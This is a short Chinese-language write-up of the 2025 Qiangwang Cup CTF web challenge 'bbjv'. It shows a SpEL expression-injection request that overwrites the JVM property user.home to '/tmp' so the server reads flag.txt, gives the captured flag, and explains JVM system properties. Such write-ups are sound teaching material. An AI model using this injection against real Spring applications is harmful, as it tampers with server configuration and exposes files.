

# 2025 强网杯 bbjv
闲来无事，顺手写一题强网杯Web签到题。
## 分析

`ReflectivePropertyAccessor`类限制Spel表达式无法直接实例化类，也就是无法通过构造其他类进行RCE


题目存在对flag.txt的读取，说明其题目本意不是让我们进行rce，而是修改环境变量`user.home`，从而读取flag



给出的Dcokerfile，我们可以发现flag.txt在/tmp目录下，因此我们只需要修改系统环境变量，将`user.home`修改为`/tmp`即可获得flag


## 题解

```
GET /check?rule=&#123;&#123;urlesc(#{#systemProperties['user.home']='/tmp'})&#125;&#125; HTTP/2.0
Host: eci-2ze848gtw123nuofjx8b.cloudeci1.ichunqiu.com:8080
sec-fetch-site: none
upgrade-insecure-requests: 1
priority: u=0, i
accept-language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
sec-fetch-user: ?1
accept-encoding: gzip, deflate, br, zstd
sec-ch-ua: "Google Chrome";v="141", "Not?A_Brand";v="8", "Chromium";v="141"
accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
sec-fetch-mode: navigate
user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
sec-fetch-dest: document
```


`flag{030d206d-92ea-4c12-a96e-23e11eaaa882}`

## 思考

`systemProperties`变量在Spring EL（SpEL）中，**代表当前JVM中的所有系统属性**，通常以`java.util.Properties`对象形式提供。

来源：这些属性主要来自JVM启动参数（以`-D`指定，如`-Dfile.encoding=UTF-8`），也包含JVM运行时内置属性（如`java.version`、`user.home`等）。

与`systemEnvironment`区别：`systemProperties`获取的是JVM级别的系统属性。而`systemEnvironment`获取的是操作系统级别的环境变量，例如PATH、JAVA\_HOME等。它们是两个不同的概念。

在此环境中不存在`systemEnvironment`变量值。

为什么Dockerfile中没有指定`user.home`的值，JVM也会设置其为`/root`？


**JVM内置默认值**

Java运行时环境会设置一系列默认的系统属性，包括：

- `user.home` - 用户主目录
- `user.dir` - 当前工作目录
- `java.home` - Java安装目录
- `os.name` - 操作系统名称

